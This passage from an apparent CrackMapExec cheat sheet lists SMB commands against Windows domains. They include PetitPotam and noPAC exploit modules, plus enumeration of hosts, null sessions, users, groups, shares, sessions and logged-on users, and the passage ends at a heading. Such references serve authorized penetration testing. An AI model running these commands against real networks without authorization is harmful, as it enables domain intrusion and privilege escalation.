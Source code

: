```
cme smb <ip> -u '' -p '' -M petitpotam
```

#### noPAC

```
cme smb <ip> -u 'user' -p 'pass' -M nopac
```

## Enumeration

#### Map Network Hosts

```
cme smb 192.168.1.0/24
```

#### Null Sessions

```
cme smb 10.10.10.161 -u '' -p ''
cme smb 10.10.10.161 --pass-pol
cme smb 10.10.10.161 --users
cme smb 10.10.10.161 --groups
```

#### Anonymous Logon

```
cme smb 10.10.10.178 -u 'a' -p ''
```

#### Active Sessions

```
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sessions
```

#### Shares and Access

```
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --shares
```

#### Disks

```
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --disks
```

#### Logged on Users

```
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --loggedon-users
```

#### Domain Users
